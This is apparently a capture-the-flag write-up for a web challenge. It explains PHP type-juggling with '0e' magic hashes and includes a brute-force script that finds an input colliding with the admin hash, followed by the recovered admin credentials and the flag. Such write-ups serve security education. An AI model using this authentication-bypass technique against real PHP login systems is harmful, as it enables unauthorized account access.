# Writeup for Mess of Hash (WEB50)

> Solves: 170  
> Description: Students have developed a new admin login technique. I doubt that it's secure, but the hash isn't crackable. I don't know where the problem is...   
> Attachment: web50.zip   
> Service: https://mess-of-hash.ctf.internetwache.org/ 

Inside of of web50.zip we had a .txt file which contained:
> All info I have is this:

```
<?php

$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}

```

The goal of this task was to login to the page, via two input fields, one for username and second for password (quite common...)

So after looking at the .php source code we immediately realized what kind of vulnerability is this challenge about.
In older versions of PHP every string in format "0e[some 0-9 digits]" will be evaluated to 0 while casting to int,
so loose comparison will return ```true```.  
Some examples: 
```php
  md5('240610708') === '0e462097431906509019562988736854'
  md5('QNKCDZO')   === '0e830400451993494058024219903391'
  so,
  if(md5('240610708') == md5('QNKCDZO'))echo "equal!";
  //will print "equal!"; (loose comparison)
  
  and another one:
  if('0e462097431906509019562988736854' == 0)echo "equal 0";
  //will print "equal 0"; (casting to int)
 
```
[more](<https://news.ycombinator.com/item?id=9484757>)

We assume that background uses loose comparison ```==``` instead of strict comparison ```===``` .
We know the username, so all we have to do is to brute the hash 
```md5(md5($str) . "SALT")```, so it will be evaluated to ```0``` while compared to ```$admin_pw```.
To achieve this we wrote following script:
```php
<?php
  set_time_limit ( 123123123 );	
  function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
  }

  function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
  }

  $adminHash="0e408306536730731920197920342119";
  for($i = 1; $i < 100000000; $i++){
    $asdf = (string)$i;
    $tmpHash = myhash($asdf);
    if($tmpHash == "0e408306536730731920197920342119"){
      echo "found cracked hash: ".$asdf.", hash==".$tmpHash. "<br>";
      exit();
  }
}
echo "THIS IS THE END<br>";
?>
```

After about a minute script gave us:
> found cracked hash: 62778807, hash==0e774261293712168181959463563504

So now we can login to the page with credentials 
pr0_adm1n:62778807

The flag is:
> IW{T4K3_C4RE_AND_C0MP4R3}


All this scenario wouldn't happen, if server side have used strict comparison, so you shall take care ;)